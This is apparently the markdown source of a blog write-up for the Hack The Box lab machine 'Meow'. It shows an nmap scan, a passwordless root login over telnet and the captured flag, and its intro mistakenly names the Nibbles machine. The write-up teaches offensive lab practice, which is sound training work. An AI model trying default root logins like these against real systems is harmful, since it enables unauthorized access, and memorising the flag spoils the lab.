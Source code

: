 ```yaml
---
title: "Hack The Box - Meow"
date: 2022-10-10T00:26:33+05:30
draft: false
description: Meow from HackTheBox is an retired machine which is vulnerable to Telnet and security Misconfiguration, which can be easily exploited with help of Basic Recon "
hideToc: false
tocPosition: outer
enableToc: true
enableTocContent: true
author: Atom
authorEmoji: ✍️
tags:
- Telnet
series:
- Starting Point Tire 0
categories:
- Easy
- HackTheBox
- Linux
- Public Exploit
libraries:

image: /images/hackthebox/meow/Meow1.png 
---
```

Hi Hackers Welcome Back, Today we are going to look at Hack The Box Nibbles Machine.

{{< img src="/images/hackthebox/nibbles/nibbles.png" alt="image alt" width="450px"  position="center" >}}

## Info Table
<table style="width:100%">
 <thead>
  <tr>
    <th>Title</th>
    <th>Meow</th>
  </tr>
</thead>
<tr>
    <td>Category</td>
    <td>Hack The Box</td>
    </tr>
  <tr>
    <td>OS</td>
    <td>Linux</td>
    </tr>
  </tr>
   <tr>
    <td>Difficulty</td>
    <td>Easy</td>
    </tr>
    <tr>
    <td>Maker</td>
    <td>Hack The Box</td>
    </tr>
    <tr>
    </tr>
</table>

## Kill Chain Summery
While enumerating ports and services we can able to find the port 23 ware open. while trying to connect with default or well known usernames. telnet ware get logged in without using password.

## Mind Map 
{{< img src="/images/hackthebox/nibbles/mm.png" alt="image alt" width="1000px"  position="center" >}}

## Recon 
Lets start with Initial scan.

```bash 
atom@atom-VirtualBox:~/htb/meow$ sudo nmap -sC -sV -O 10.129.144.166 -oN initial.txt
Starting Nmap 7.80 ( https://nmap.org ) at 2022-10-10 01:16 IST
Nmap scan report for 10.129.144.166
Host is up (0.18s latency).
Not shown: 999 closed ports
PORT   STATE SERVICE VERSION
23/tcp open  telnet  Linux telnetd
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.80%E=4%D=10/10%OT=23%CT=1%CU=30227%PV=Y%DS=2%DC=I%G=Y%TM=634325
OS:3C%P=x86_64-pc-linux-gnu)SEQ(SP=101%GCD=1%ISR=109%TI=Z%CI=Z%TS=A)SEQ(SP=
OS:101%GCD=1%ISR=109%TI=Z%CI=Z%II=I%TS=A)OPS(O1=M54DST11NW7%O2=M54DST11NW7%
OS:O3=M54DNNT11NW7%O4=M54DST11NW7%O5=M54DST11NW7%O6=M54DST11)WIN(W1=FE88%W2
OS:=FE88%W3=FE88%W4=FE88%W5=FE88%W6=FE88)ECN(R=Y%DF=Y%T=40%W=FAF0%O=M54DNNS
OS:NW7%CC=Y%Q=)T1(R=Y%DF=Y%T=40%S=O%A=S+%F=AS%RD=0%Q=)T2(R=N)T3(R=N)T4(R=Y%
OS:DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T5(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%
OS:O=%RD=0%Q=)T6(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T7(R=N)U1(R=Y%DF=
OS:N%T=40%IPL=164%UN=0%RIPL=G%RID=G%RIPCK=G%RUCK=G%RUD=G)IE(R=Y%DFI=N%T=40%
OS:CD=S)

Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 61.80 seconds
atom@atom-VirtualBox:~/htb/meow
```
Lets we try to connect Telnet port 23 using some well-known default usernames and password like ubuntu, administrator,user,root ... 

```bash
atom@atom-VirtualBox:~$ telnet 10.129.143.226 23
Trying 10.129.143.226...
Connected to 10.129.143.226.
Escape character is '^]'.
root

  █  █         ▐▌     ▄█▄ █          ▄▄▄▄
  █▄▄█ ▀▀█ █▀▀ ▐▌▄▀    █  █▀█ █▀█    █▌▄█ ▄▀▀▄ ▀▄▀
  █  █ █▄█ █▄▄ ▐█▀▄    █  █ █ █▄▄    █▌▄█ ▀▄▄▀ █▀█


Meow login: root
Welcome to Ubuntu 20.04.2 LTS (GNU/Linux 5.4.0-77-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Sun 09 Oct 2022 04:55:58 AM UTC

  System load:           0.0
  Usage of /:            41.7% of 7.75GB
  Memory usage:          4%
  Swap usage:            0%
  Processes:             136
  Users logged in:       0
  IPv4 address for eth0: 10.129.143.226
  IPv6 address for eth0: dead:beef::250:56ff:fe96:1afd

 * Super-optimized for small spaces - read how we shrank the memory
   footprint of MicroK8s to make it the smallest full K8s around.

   https://ubuntu.com/blog/microk8s-memory-optimisation

75 updates can be applied immediately.
31 of these updates are standard security updates.
To see these additional updates run: apt list --upgradable


The list of available updates is more than a week old.
To check for new updates run: sudo apt update

Last login: Mon Sep  6 15:15:23 UTC 2021 from 10.10.14.18 on pts/0
```
we successfully get logged in. let's dig for a flag 

```bash 
root@Meow:~# ls
flag.txt  snap
root@Meow:~# cat flag.txt 
b40abdfe23665f766f9c61ecba8a4c19
root@Meow:~# whoami
root
root@Meow:~# 

```